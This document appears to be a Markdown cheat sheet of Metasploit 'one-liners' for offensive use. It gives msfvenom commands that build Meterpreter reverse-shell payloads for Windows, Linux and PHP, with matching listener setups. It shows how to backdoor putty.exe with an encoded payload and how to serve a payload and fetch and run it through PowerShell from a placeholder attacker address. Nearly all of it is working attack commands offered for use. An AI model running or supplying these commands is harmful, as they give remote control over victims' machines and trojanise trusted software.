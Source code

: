 Create payload and listener "One Liners"
------------------------------------------------
```bash
# Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=443 -f exe > ./reverse3.exe
msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST xxx.xxx.xxx.xxx; set PORT 1234; run"
# Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=1234 -f elf > ./shell.elf
msfconsole -x "use exploit/multi/handler; set payload linux/x86/meterpreter_reverse_tcp; set LHOST xxx.xxx.xxx.xxx; set PORT 1234; run"
# PHP
msfconsole -x "use exploit/multi/handler; set PAYLOAD php/meterpreter/reverse_tcp; set LHOST xxx.xxx.xxx.xxx; set PORT 1234; run"
```

Start meterpreter listener for a Windows payload
------------------------------------------------
```bash
# Create Payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=443 -f exe > ./reverse3.exe
# Start Listener
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST xxx.xxx.xxx.xxx
set LPORT 443
exploit
```

Backdoor a Windows Feedback Executable
------------------------------
```bash
msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lport= 4444 lhost=xxx.xxx.xxx.xxx -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o puttyX.exe
```
Generate Payload -> powershell to download -> execute 
--------------------------------------------------------------------
```bash
# Generate payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=7777 -f exe > ./reverse3.exe
# Start Webserver to download
php -S <locahost-ip-address>:80
# Start listener
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST xxx.xxx.xxx.xxx
set LPORT 7777
exploit
# Use PowerShell to download payload
powershell Invoke-WebRequest http://xxx.xxx.xxx.xxx:80/reverse3.exe -O 'C:\path\where\you\can\create\files\reverse3.exe'
# Execute payload (try different quotes as needed)
"C:\path\where\you\can\create\files\reverse3.exe"
```

